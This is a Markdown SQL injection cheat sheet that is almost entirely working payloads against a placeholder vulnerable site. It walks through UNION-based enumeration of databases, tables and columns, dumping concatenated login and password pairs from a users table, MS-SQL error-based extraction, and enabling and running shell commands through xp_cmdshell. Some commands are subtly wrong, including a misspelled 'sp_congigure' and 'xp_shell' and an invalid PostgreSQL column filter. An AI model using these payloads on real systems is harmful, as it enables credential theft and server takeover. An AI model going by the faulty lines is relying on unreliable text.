 # SQL injection 

## Introduction
It is an attack in which an attacker inserts untrusted data in the application that results in revealing sensitive information of the database. 

SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers. 

- In-band SQLi (Classic SQLi) 
- Error-based SQLi
- Union-based SQLi 
- Inferential SQLi (Blind SQLi) 
- Boolean-based (content-based) Blind SQLi 
- Time-based Blind SQLi 
- Out-of-band SQLi 

## How to exploit
# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---


### Finding what column is injectable

**mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---


#### Finding version

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s


#### Finding database name

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;`
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`
